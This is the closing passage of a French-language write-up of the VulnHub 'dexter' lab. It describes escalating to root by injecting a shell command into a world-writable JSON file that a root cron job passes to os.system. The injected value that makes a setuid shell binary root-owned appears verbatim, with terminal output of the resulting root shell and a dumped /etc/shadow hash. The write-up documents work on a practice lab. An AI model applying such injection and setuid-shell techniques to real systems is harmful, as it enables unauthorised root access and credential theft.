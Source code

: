 Le script appelle la commande *echo* via *os.system()*. Il lui passe deux arguments provenant du fichier JSON.  

Or il se trouve que ce dernier est word-writable. Le modifier pour provoquer une injection de commande n'est pas difficile par contre j'ai beau avoir cherché ce qui peut provoquer l'appel de *antitamper.py* je n'ai rien trouvé.  

J'ai finalement tenté ma chance en modifiant la première entrée du dictionnaire de cette façon :  

```plain
"';chown root.root /var/www/Panel/exes/getroot;chmod +s /var/www/Panel/exes/getroot;#'": "d8fa4356213b6ce9253f55acdff780ac",
```

Où getroot est un programme préalablement compilé qui fait un setuid/setgid 0 avant de lancer un shell.  

Un dièse est placé pour marquer un commentaire bash et une quote est là pour que le nombre total de quotes soit paire (sinon bash peut lever une erreur de syntaxe).  

Et miracle :  

```plain
$ cp antitamper.list /tmp/sav_antitamper.list
$ cp /tmp/modified_antitamper.list antitamper.list
$  ls -l Panel/exes/
total 740
-rw-rw-rw- 1 mysql mysql     36 Jun  9 18:12 bd.php
-rwsr-xr-x 1 root  root   10722 Jun 10 01:15 getroot
-rwxrw-rw- 1 mysql mysql 738792 Apr 19 13:44 tshd
$ ./Panel/exes/getroot
root@dexter:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@dexter:/tmp# head -1 /etc/shadow
root:$6$gN9t1RCt$dYj80MPAWCeWkh9kTpoPHuUU.x5hfaXfrB.UUWkMQDQpjDfAHO4D2RLWvG00wjUGrO8EMdfl/Ys31WePgl8hV1:16145:0:99999:7:::
```

![FUCK YEAH!](https://raw.githubusercontent.com/devl00p/blog/master/images/dexter3.gif)

Quand à l'explication sur le lancement de *antitamper.py* :  

```plain
root@dexter:~# tail -1 /var/spool/cron/crontabs/root 
*/1 * * * * python /var/www/antitamper.py
```

Next step [LoBOTomy](http://vulnhub.com/entry/bot-challenges-lobotomy,89/) ?

*Published June 13 2014 at 22:09*